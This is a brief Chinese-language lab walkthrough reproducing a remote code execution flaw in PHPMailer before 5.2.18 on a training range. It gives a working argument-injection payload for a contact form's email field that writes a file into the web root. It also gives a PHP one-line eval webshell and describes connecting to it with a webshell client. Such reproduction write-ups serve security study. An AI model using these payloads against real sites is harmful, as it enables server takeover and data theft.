 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/124

# 0x01 利用条件
无

# 0x02 影响版本
PHPMailer<5.2.18

# 0x03 漏洞复现
启动墨者学院的靶场环境，看到一个网站，点击底部的“Mail Contact”，进入“http://219.153.49.228:49754/mail.php”  
在name处随便输入比如“aaa”，在email处输入：  
```
"aaa". -OQueueDirectory=/tmp/. -X/var/www/html/a.php @aaa.com
```
在message处输入一句话木马：  
```
<?php @eval($_POST['a']); ?>
```
蚁剑链接http://219.153.49.228:49754/a.php ，成功拿到webshell，如下图  
![image](./0.png)

# 0x04 踩坑记录
坑1：上传完一句话木马后，页面会响应3-5分钟，响应时间较长

# 参考链接
https://www.jianshu.com/p/745c82d8b6e0
